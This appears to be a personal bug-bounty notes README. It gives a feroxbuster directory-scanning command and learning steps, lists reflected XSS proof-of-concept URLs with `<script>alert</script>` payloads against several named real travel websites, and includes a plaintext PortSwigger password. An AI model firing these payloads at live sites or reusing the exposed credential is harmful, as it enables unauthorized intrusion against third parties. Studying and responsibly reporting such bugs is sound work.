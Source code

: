 # bug-bounty
## Port Swigger Password: 2\!5x|6YWwd5Pn&9^5W8W\^BNY)B5-SM
## 1 - test endpoints (robots.txt)
## 2 - use a automation tool can test endpoints and paths like feroxbuster 
## 3 - feroxbuster command to run is "feroxbuster --url <Link> -w common.txt
## 4 - the common txt you will find him at https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content > common.txt

# my Steps at learn

## 1 - learn how can i edit the proxy setting at burbe suite 
## 2 - learn how can i take admin permession at the site with IDOR LAB

# my first bug bounty is a XSS at https://www.egypttoursportal.com/search-tours/?s=%22%3E%3Cscript%3Ealert(%22hello%22)%3C/script%3E  >>  8/1/2025
# my secound bug bounty is a XSS at search https://www.luxorandaswan.com/search/?keyword=%3Cscript%3Ealert(%22hello+world%22)%3C/script%3E >> 9/1/2025
# Memphis >> https://www.memphistours.com/Search?q=%3E%3Cscript%3Ealert(%22hello%20world%22)%3C/script%3E
# saudiarabiatours.net >> https://saudiarabiatours.net/wp-admin/js/customize-controls.js
